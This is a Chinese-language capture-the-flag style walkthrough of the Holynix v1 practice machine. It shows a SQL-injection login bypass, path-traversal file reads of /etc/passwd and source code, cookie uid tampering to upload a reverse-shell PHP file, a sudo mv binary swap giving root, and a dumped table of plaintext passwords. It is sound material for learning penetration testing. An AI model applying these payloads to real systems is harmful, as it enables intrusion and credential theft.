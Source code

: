 # Holynix：v1

2024-6-5 https://www.vulnhub.com/entry/holynix-v1,20/

difficulty: easy

## IP

192.168.10.193

## Scan

Open Port -> 80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch
```

只开放了 80 web 端口，需要通过 web shell 进入到目标系统。

http://192.168.10.193/index.php?page=login.php 注意到登陆页面的链接这里，可能存在 LFI 漏洞。访问 http://192.168.10.193/index.php?page=../../../../../../etc/passwd 这里提示找不到 404.html ，应该是 index.php 中做了 page 参数判断，限制了白名单文件。

http://192.168.10.193/index.php 点击左侧 login 链接，出现登陆窗口，测试是否存在 sql 注入，用户名和密码都输入 `' or 1=1 -- -` , 可以登陆进入，证明存在 sql 注入。

http://192.168.10.193/index.php?page=upload.php 有一个上传文件的功能，但是当前用户测试上传提示有限制。

http://192.168.10.193/index?page=employeedir.php 列出的员工信息。

http://192.168.10.193/index.php?page=ssp.php 这里可以进行选择查看相应内容，抓包发现其 post 发送内容为 `text_file_name=ssp/software_installation.txt&B=Display File`， text_file_name 这里体现出了路径，可能存在 LFI 漏洞，进行修改: text_file_name=ssp/../../../../../../../etc/passwd&B=Display+File ，结果看到了我们想要的内容：

```
<pre>
root:x:0:0:root:/root:/bin/bash
...
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash
</pre>
```

先看看上传文件那里的源码是否能去读：

```php
text_file_name=ssp/../upload.php&B=Display+File

text_file_name=ssp/../transfer.php&B=Display+File

<?php
if ( $auth == 0 ) {
        echo "<center><h2>Content Restricted</h2></center>";
} else {
	if ( $upload == 1 )
	{
		$homedir = "/home/".$logged_in_user. "/";
		$uploaddir = "upload/";
		$target = $uploaddir . basename( $_FILES['uploaded']['name']) ;
		$uploaded_type = $_FILES['uploaded']['type'];
		$command=0;
		$ok=1;

		if ( $uploaded_type =="application/gzip" && $_POST['autoextract'] == 'true' ) {	$command = 1; }

		if ($ok==0)
		{
			echo "Sorry your file was not uploaded";
			echo "<a href='?index.php?page=upload.php' >Back to upload page</a>";
		} else {
        		if(move_uploaded_file($_FILES['uploaded']['tmp_name'], $target))
			{
				echo "<h3>The file '" .$_FILES['uploaded']['name']. "' has been uploaded.</h3><br />";
				echo "The ownership of the uploaded file(s) have been changed accordingly.";
				echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
				if ( $command == 1 )
				{
					exec("sudo tar xzf " .$target. " -C " .$homedir);
					exec("rm " .$target);
				} else {
					exec("sudo mv " .$target. " " .$homedir . $_FILES['uploaded']['name']);
				}
				exec("/var/apache2/htdocs/update_own");
        		} else {
				echo "Sorry, there was a problem uploading your file.<br />";
				echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
			}
		}
	} else { echo "<br /><br /><h3>Home directory uploading disabled for user " .$logged_in_user. "</h3>"; }
}
?>
```

经过查看源码，发现上传的文件被存储在 `/home/$logged_in_user/$_FILES['uploaded']['name']` 中，但是在 upload 上传时，发现有一些用户不能上传，查看请求，其中有一个 Cookie: uid=0 ，从 0-20 进行遍历，发现有一些 uid 可以上传文件，如 uid=4 对应的用户名为 hreiser，去它的家目录中查找看是否能得到 8888.php 文件，同时在 kali 上监听 8888 端口，看是否能触发反弹：

```
text_file_name=ssp/../../../../../home/hreiser/8888.php&B=Display+File
```

发现可以读取，证明文件上传成功。但是反弹 shell 没有执行，应该是程序中执行了文件读取 stream_get_contents($handle); ，而没有文件包含，导致代码没有执行。

下面需要找到上传的 php 文件所在的 url 链接。

经过 FUZZ 找到了 apache2 的相关配置文件，查看 /etc/apache2/apache2.conf, /etc/apache2/mods-available/userdir.conf 中的内容:

```
<IfModule mod_userdir.c>
        UserDir ./
        UserDir disabled root

        <Directory /home/*/>
                AllowOverride FileInfo AuthConfig Limit
                Options MultiViews Indexes SymLinksIfOwnerMatch IncludesNoExec
        </Directory>
</IfModule>
```

这里启用了 UserDir ，所以就需要通过 http://example.com/~user/ 这样才能访问用户家目录中的文件。

发现了上面 hreiser 用户上传文件的目录：

```
http://192.168.10.193/~hreiser/

8888.php	18-Nov-2011 16:01	0
```

```
www-data@holynix:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

sudo 发现命令：

```
www-data@holynix:/$ sudo -l
User www-data may run the following commands on this host:
(root) NOPASSWD: /bin/chown
(root) NOPASSWD: /bin/chgrp
(root) NOPASSWD: /bin/tar
(root) NOPASSWD: /bin/mv
```

使用 /bin/bash 替换 /bin/chgrp：

```
sudo /bin/mv /bin/chgrp /bin/chgrp.bak
sudo /bin/mv /bin/bash /bin/bash.bak
sudo /bin/mv /bin/bash.bak /bin/chgrp
sudo /bin/chgrp

id
uid=0(root) gid=0(root) groups=0(root)
```

最终得到了 root 权限。

```
select * from accounts;
+-----+------------+--------------------+--------+
| cid | username   | password           | upload |
+-----+------------+--------------------+--------+
|   1 | alamo      | Ih@cK3dM1cR05oF7   | 0      |
|   2 | etenenbaum | P3n7@g0n0wN3d      | 1      |
|   3 | gmckinnon  | d15cL0suR3Pr0J3c7  | 1      |
|   4 | hreiser    | Ik1Ll3dNiN@r315er  | 1      |
|   5 | jdraper    | p1@yIngW17hPh0n35  | 1      |
|   6 | jjames     | @rR35t3D@716       | 1      |
|   7 | jljohansen | m@k1nGb0o7L3g5     | 1      |
|   8 | kpoulsen   | wH@7ar37H3Fed5D01n | 1      |
|   9 | ltorvalds  | f@7H3r0FL1nUX      | 0      |
|  10 | mrbutler   | n@5aHaSw0rM5       | 1      |
|  11 | rtmorris   | Myd@d51N7h3NSA     | 1      |
+-----+------------+--------------------+--------+
11 rows in set (0.00 sec)
```

pis： 这个靶机有问题，重启好几次之后才正常，而且最开始导入虚拟机，一致获取不到 ip，反复修改网卡模式才可以。
